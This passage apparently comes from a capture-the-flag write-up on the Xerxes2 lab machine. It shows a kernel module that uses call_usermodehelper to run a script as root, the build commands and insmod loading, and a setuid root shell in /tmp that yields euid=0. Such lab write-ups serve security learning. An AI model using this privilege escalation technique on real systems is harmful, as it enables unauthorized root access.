 ```
static int __init usermodehelper_example_init(void)
{
        int ret = 0;
        char *argv[] = {"/home/korenchkin/runme.sh", "2", NULL };
        char *envp[] = {"HOME=/", "PATH=/sbin:/usr/sbin:/bin:/usr/bin", NULL };

        printk("usermodehelper: init\n");
        /* last parameter: 1 -> wait until execution has finished, 0 go ahead without waiting*/
        /* returns 0 if usermode process was started successfully, errorvalue otherwise*/
        /* no possiblity to get return value of usermode process*/
        ret = call_usermodehelper("/home/korenchkin/runme.sh", argv, envp, UMH_WAIT_EXEC);
        if (ret != 0)
                printk("error in call to usermodehelper: %i\n", ret);
        else
                printk("everything all right\n");
        return 0;
}

static void __exit usermodehelper_example_exit(void)
{
        printk("usermodehelper: exit\n");
}

module_init(usermodehelper_example_init);
module_exit(usermodehelper_example_exit);
MODULE_LICENSE("GPL");
```


I created another Makefile, compiled the module and loaded it


``` bash

korenchkin@xerxes2:~$ make -C /lib/modules/$(uname -r)/build M=/home/korenchkin/a modules
make: Entering directory `/usr/src/linux-headers-3.2.0-4-686-pae'
  CC [M]  /home/korenchkin/a/a.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/korenchkin/a/a.mod.o
  LD [M]  /home/korenchkin/a/a.ko
make: Leaving directory `/usr/src/linux-headers-3.2.0-4-686-pae'
korenchkin@xerxes2:~$ sudo insmod a.ko
korenchkin@xerxes2:~$
```


![](http://media.giphy.com/media/DUuyU3KyYGLNS/giphy.gif)


``` bash

korenchkin@xerxes2:~$ ls -l /tmp
total 244
-rwxr-xr-x 1 delacroix delacroix    55 Aug  6 16:15 123.sh
-rwsrwxrwx 1 root      root      97284 Aug  8 03:40 rootshell
-rwsrwxrwx 1 polito    polito    97284 Aug  6 16:15 shell
korenchkin@xerxes2:~/a$ /tmp/rootshell
# id
uid=1000(korenchkin) gid=1000(korenchkin) euid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(korenchkin)
#

```
